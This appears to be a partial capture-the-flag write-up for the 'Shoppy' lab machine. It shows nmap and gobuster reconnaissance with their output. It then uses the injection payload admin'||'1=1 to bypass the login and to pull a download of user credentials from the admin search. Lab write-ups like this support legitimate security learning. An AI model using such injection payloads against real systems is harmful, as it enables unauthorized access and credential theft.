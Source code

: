 
<h1 align=center>Shoppy</h1>

## Part 1 : Discovery
## Scanning
```sudo nmap -sVC -T4 -p- target_ip``` gives us the result : 
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This box is hosting a web application on port 80 called shoppy.htb. <br/>

This website is unreachable. We have to specifiy this machines' IP and domain into our local DNS Resolver.<br/>
- execute : ```sudo vi /etc/hosts/```
- insert : ``` target_ip  shoppy.htb```
- save and quit

## Investigating the website
We should discover if there are any subdomains or virtual hosts that are serving under the same ip

### Finding directories 
- execute ```gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirb/big.txt``` to find directories under this domain<br/> result :
```
gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/11/03 16:30:35 Starting gobuster in directory enumeration mode
===============================================================
/ADMIN                (Status: 302) [Size: 28] [--> /login]
/Admin                (Status: 302) [Size: 28] [--> /login]
/Login                (Status: 200) [Size: 1074]           
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/exports              (Status: 301) [Size: 181] [--> /exports/]
/favicon.ico          (Status: 200) [Size: 213054]             
/fonts                (Status: 301) [Size: 177] [--> /fonts/]  
/images               (Status: 301) [Size: 179] [--> /images/] 
/js                   (Status: 301) [Size: 171] [--> /js/]     
/login                (Status: 200) [Size: 1074]               
                                                               
===============================================================
2022/11/03 16:33:12 Finished
===============================================================

```
<br/>
We can see that there are some login and admin directories that opens a new page and asks user to login. We may bypass authentication by SQLI.
- go to http://shoppy.htb/login
- enter ```admin'||'1=1``` into username
This will bring us the admin page that we can search anything in the admin page. <br/>
- I have decided to use ```admin'||'1=1``` once again here to see if there are anything hidden in the Database.
- This gives us a download button which will download some creds about the users.
